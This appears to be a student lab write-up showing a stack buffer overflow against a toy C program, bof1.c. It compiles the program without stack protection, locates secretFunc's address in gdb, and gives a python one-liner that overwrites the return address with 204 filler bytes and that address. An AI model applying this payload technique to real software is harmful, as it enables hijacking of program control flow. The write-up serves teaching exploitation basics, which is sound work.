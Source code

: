 # Understand bof1.c 
In this attack, we will try to replace the return address with another function's return address (redirect control) by using python!
## Stackframe
![image](https://github.com/user-attachments/assets/b2836a7b-fe7e-45f6-88f0-683aa1eeeaa3)
## Vulnerbility
At "gets(array)"; function, we see that hackers can exploit the stackframe by adding more bytes in python in order to redirect the return address! 
# Start attacking bof1.c 
## Compiling the file without stack restriction
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`    
![image](https://github.com/user-attachments/assets/21d80169-9f8e-4b30-9a74-2a1f724fe91e)
## Run gdb for futher examination
`gdb bof1.out`      
![image](https://github.com/user-attachments/assets/fd0f1874-33e5-462a-b728-5585a58f25f2)
## Try to see each func in machine code!
With **vuln**: `disas vuln`    
![image](https://github.com/user-attachments/assets/5cebaf7c-ea46-4f84-8ca1-5cadb035417b)  
With **secretFunc**: `disas secretFunc`  
![image](https://github.com/user-attachments/assets/9309975e-fe08-4948-b08a-ff2b48181bd6)  
=> We see that the address of  **secretFunc** is `0x0804846b`. So now, we are going to replace the **vuln's return address** with the **secretFunc's return address**.
## Calculate the total bytes to attack
As can be seen from the stackframe, we need in sum of 204 bytes of a and the last will be the return address of **secretFunc**  
Now we use `q` to exit and type `echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 123` to see the result!  
![image](https://github.com/user-attachments/assets/e7537703-ab20-4977-96fb-a0ee086fc7ec)

